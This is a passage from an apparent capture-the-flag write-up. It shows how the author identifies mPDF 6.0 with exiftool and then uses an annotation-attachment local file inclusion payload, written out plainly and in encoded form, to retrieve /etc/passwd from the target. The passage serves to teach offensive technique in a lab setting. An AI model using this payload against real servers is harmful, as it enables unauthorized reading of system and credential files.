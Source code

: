 ## mPDF LFI

I turn my attention to the pdf button. Generating pdfs can happen in a variety of ways, I downloaded the pdf and checked the metadata to determine what was creating it. 


```bash
exiftool OKFewrDL0oQmiCAaXM4P5tzKSO.pdf 

ExifTool Version Number         : 12.16
File Name                       : OKFewrDL0oQmiCAaXM4P5tzKSO.pdf
Directory                       : .
File Size                       : 1781 bytes
File Modification Date/Time     : 2024:08:01 15:43:11-05:00
File Access Date/Time           : 2024:08:01 15:43:11-05:00
File Inode Change Date/Time     : 2024:08:01 15:46:39-05:00
File Permissions                : rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Page Layout                     : OneColumn
Producer                        : mPDF 6.0
Create Date                     : 2024:08:01 21:42:54+01:00
Modify Date                     : 2024:08:01 21:42:54+01:00
```

mPDF 6.0 is making the pdf. Searching I found [this LFI exploit affecting mPDF 7.0](https://www.exploit-db.com/exploits/50995). Within the request to make the pdf it sends all the data from the page within a packet we control as seen below. That parameter is double url encoded then base64 encoded. If we add an attachment for a local file into the field instead the pdf generated will allow us to download that local file (as an attachment).

![pdf post request]({{ page.img }}_pdf_burp.png)

I'll test this with passwd first. 

```
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />

JTNDYW5ub3RhdGlvbiUyMGZpbGUlM0QlMjIvZXRjL3Bhc3N3ZCUyMiUyMGNvbnRlbnQlM0QlMjIvZXRjL3Bhc3N3ZCUyMiUyMGljb24lM0QlMjJHcmFwaCUyMiUyMHRpdGxlJTNEJTIyQXR0YWNoZWQlMjBGaWxlJTNBJTIwL2V0Yy9wYXNzd2QlMjIlMjBwb3MteCUzRCUyMjE5NSUyMiUyMC8lM0U=
```

![attachments on pdf]({{ page.img }}_pdf_attachments.png)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
postfix:x:113:119::/var/spool/postfix:/usr/sbin/nologin
developer:x:1001:1002:,,,:/home/developer:/bin/bash
usbmux:x:114:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```
